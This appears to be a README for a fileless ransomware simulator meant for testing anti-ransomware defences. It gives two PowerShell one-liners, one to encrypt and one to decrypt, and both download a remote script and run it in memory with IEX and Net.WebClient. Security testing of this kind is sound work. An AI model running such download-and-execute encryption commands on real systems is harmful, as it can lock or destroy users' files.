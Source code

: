 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

You can execute it from any powershell commandline:

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

To decrypt the files use the Decrypt switch:

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';
